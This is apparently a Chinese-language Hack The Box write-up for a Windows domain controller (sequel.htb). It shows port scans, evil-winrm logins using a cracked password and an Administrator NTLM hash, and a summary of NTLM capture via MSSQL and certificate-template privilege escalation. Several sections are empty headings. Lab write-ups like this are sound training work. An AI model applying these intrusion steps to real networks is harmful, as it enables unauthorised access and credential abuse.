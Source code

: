 **Waiting for machine retire...**

*Difficulty: Medium*

第一次打Windows的靶机……也是边打边学了。

---

## 扫描

由于是Windows机器且是Medium，姑且扫一下全端口吧

```bash
└─$ export HTB_IP=10.10.11.202
└─$ sudo nmap -n -Pn -sS -p- --min-rate=10000 ${HTB_IP} | tee ${HTB_IP}_ports_all.nmap
└─$ export ports=$(cat "${HTB_IP}_ports_all.nmap" | grep ^[0-9] | cut -d / -f1 | tr '\n' ',' | sed s/,$//)
└─$ echo $ports
53,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389,49667,49687,49688,49705,49709,52722

└─$ sudo nmap -v -n -Pn -sV -O -p ${ports} ${HTB_IP} | tee "${HTB_IP}_baseScan.nmap"
……
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-06-01 09:36:12Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49687/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49688/tcp open  msrpc         Microsoft Windows RPC
49705/tcp open  msrpc         Microsoft Windows RPC
49709/tcp open  msrpc         Microsoft Windows RPC
52722/tcp open  msrpc         Microsoft Windows RPC

└─$ sudo nmap -n -Pn -sU --top-ports 20 ${HTB_IP} | tee "${HTB_IP}_ports_udp_top20.nmap"
PORT      STATE         SERVICE
53/udp    open          domain
67/udp    open|filtered dhcps
68/udp    open|filtered dhcpc
69/udp    open|filtered tftp
123/udp   open          ntp
135/udp   open|filtered msrpc
137/udp   open|filtered netbios-ns
138/udp   open|filtered netbios-dgm
139/udp   open|filtered netbios-ssn
161/udp   open|filtered snmp
162/udp   open|filtered snmptrap
445/udp   open|filtered microsoft-ds
500/udp   open|filtered isakmp
514/udp   open|filtered syslog
520/udp   open|filtered route
631/udp   open|filtered ipp
1434/udp  open|filtered ms-sql-m
1900/udp  open|filtered upnp
4500/udp  open|filtered nat-t-ike
49152/udp open|filtered unknown
```


## 端口分析、攻击路径规划

有DNS、Kerberos、LDAP，应该是个域控？  
域名疑似这个：sequel.htb0（后确认为“sequel.htb”）

感觉可以参考这个[APT靶机](./HTB-APT.md)。先看看445和135有什么信息。  
然后有1433的SQL，打进去之后可能可以枚举LDAP？


## 445端口




## 135端口



## Initial Access

### 记住：获得有效凭据就尝试横向移动

回顾了一下[APT靶机的过程](./HTB-APT.md#_3)，到底是怎么get shell的……

### evil-winrm使用域凭据get shell


## flag: user

```bash
└─$ evil-winrm -i ${HTB_IP} -u Ryan.Cooper -p NuclearMosquito3

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                                 

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                                                                   

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> whoami
sequel\ryan.cooper


*Evil-WinRM* PS C:\Users\Ryan.Cooper\Desktop> cat user.txt
de9e……cb29
```


## Privilege Escalation

### CA模板漏洞


## flag: root

```
└─$ evil-winrm -i ${HTB_IP} -u Administrator -H A52F78E4C751E5F5E17E1E9F3E58F4EE

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                                 

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                                                                   

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
sequel\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         6/4/2023   4:49 AM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
9384……db0c
```

---

## 总结·后记

2023/06/04

挺有意思的，这次该好好总结一下了。Certify之后都是跟着github照葫芦画瓢，要好好琢磨一下各个地方的知识点。

首先是关于总体流程，RPC的优先度其实不该这么高。  
SMB → MSSQL，捕获NTLMv2，由于是msf模块所以不太清楚具体细节，不过看手动也有用`xp_dirtree`强制NTLM认证的样子。  
因为不熟悉MSSQL，进行了大量无意义的枚举。还总想着是否要登陆进去，结果登进去也没什么意义。早在hacktricks的最开头就写着关于获取Net-NTLM的信息了，不过因为想着不太可能破解NTLMv2所以就放置到最后才处理这步了。还是经验太少。

破解后获得域凭据 → 由于是域凭据所以尝试初始连接，根据以前APT的笔记，有很多工具，不过这次都是使用`Evil-WinRM`。

然后就是横向移动，感觉没什么技术含量，就略过吧。其实至今不明白为什么会想到组合err log里的两个username报错。是期待用户误操作将密码当用户名输入？

最后的提权算是我印象中域渗透的精华部分了。首先自己该有枚举什么信息的思路，当思路走到`Certify`时，将会发现CA模板漏洞，这个也是前阵子接触到的一个概念。将是我接下来需要好好琢磨的地方。